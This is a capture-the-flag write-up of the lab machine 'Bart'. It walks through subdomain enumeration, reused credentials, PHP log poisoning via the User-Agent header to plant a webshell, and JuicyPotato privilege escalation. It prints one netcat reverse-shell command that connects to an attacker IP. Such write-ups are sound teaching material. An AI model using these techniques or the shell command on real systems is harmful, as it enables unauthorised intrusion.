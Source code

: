 # Bart

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (629).png" alt=""><figcaption></figcaption></figure>

Only one port was available. We had to add `forum.bart.htb` to our `/etc/hosts` file to access the website.

### Web Enum

The website was a standard company page:

<figure><img src="../../../.gitbook/assets/image (3989).png" alt=""><figcaption></figcaption></figure>

I checked the page source, and found a unique bit here. Seems like there was a user that was not shown for some reason.

<figure><img src="../../../.gitbook/assets/image (2189).png" alt=""><figcaption></figcaption></figure>

harvey is the user we probably need to access.&#x20;

We can fuzz subdomains using the `bart.htb` domain to find more places to visit.

<figure><img src="../../../.gitbook/assets/image (375).png" alt=""><figcaption></figcaption></figure>

### monitor.bart.htb

We can visit this to see that it's running PHP Server Monitor v3.2.1.

<figure><img src="../../../.gitbook/assets/image (896).png" alt=""><figcaption></figcaption></figure>

`harvey:potter` works as credentials to let us log in. There, we would view an internal chat instance.&#x20;

<figure><img src="../../../.gitbook/assets/image (564).png" alt=""><figcaption></figcaption></figure>

I looked around and found the settings for this internal chat service, and found another subdomain.

<figure><img src="../../../.gitbook/assets/image (2479).png" alt=""><figcaption></figcaption></figure>

We can head to that domain to find another application running.

### Simple Chat Log Poisoning

There's a login page within the new page. Our previous credentials of `harvey:potter` do not work here.

<figure><img src="../../../.gitbook/assets/image (3388).png" alt=""><figcaption></figcaption></figure>

However, what's interesting was the URL of the website, at `http://internal-01.bart.htb/simple_chat/login_form.php`. Googling around, we can find the exact simple\_chat PHP application being used as it is a open-source project.&#x20;

{% embed url="https://github.com/magkopian/php-ajax-simple-chat'" %}

Within the source code, we can view the register.php to see how to register a new user.

<figure><img src="../../../.gitbook/assets/image (2752).png" alt=""><figcaption></figcaption></figure>

All we need to do is sent a POST request with the `uname` and `passwd` parameters to register.

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

Afterwards, I logged into the server.

<figure><img src="../../../.gitbook/assets/image (1399).png" alt=""><figcaption></figcaption></figure>

Within this page, there's the ability to view the Log files, and when we do, we would first get a pop-up similar to xss with 1, and have this GET request be sent to the machine.

<figure><img src="../../../.gitbook/assets/image (1967).png" alt=""><figcaption></figcaption></figure>

When viewing this log, I noticed that the User-Agent was copied from my machine.

<figure><img src="../../../.gitbook/assets/image (1204).png" alt=""><figcaption></figcaption></figure>

I played around with this and altered my `User-Agent` field to something else, and it was still copied over.

<figure><img src="../../../.gitbook/assets/image (2525).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1120).png" alt=""><figcaption></figcaption></figure>

With this, because it is a PHP page, I attempted to write a webshell within the HTTP header and also change the page to a PHP page by altering the `filename` parameter.

<figure><img src="../../../.gitbook/assets/image (2024).png" alt=""><figcaption></figcaption></figure>

With this, we can easily gain a reverse shell into the machine using Invoke-PowerShellTcp, as other shells don't work out well.

<figure><img src="../../../.gitbook/assets/image (3876).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### JuicyPotato

When checking our privileges, we notice we have the SeImpersonatePrivilege enabled.

<figure><img src="../../../.gitbook/assets/image (270).png" alt=""><figcaption></figcaption></figure>

Checking `systeminfo`, we also find that a vulnerable version of Windows was running with no hotfixes.

<figure><img src="../../../.gitbook/assets/image (677).png" alt=""><figcaption></figcaption></figure>

We can run the JuicyPotato exploit to get a reverse shell as root. First, we need to create a .bat file that would be run. I used nc.exe to run my shell:

```
C:\Temp\nc.exe -e cmd.exe <IP> <PORT>
```

Then, we can get JuicyPotato on the machine and run it with a CLSID. We can find one from this page:

{% embed url="http://ohpe.it/juicy-potato/CLSID/Windows_10_Pro/" %}

<figure><img src="../../../.gitbook/assets/image (2375).png" alt=""><figcaption></figcaption></figure>

Afterwards, we would catch a shell as the administrator.

<figure><img src="../../../.gitbook/assets/image (3402).png" alt=""><figcaption></figcaption></figure>
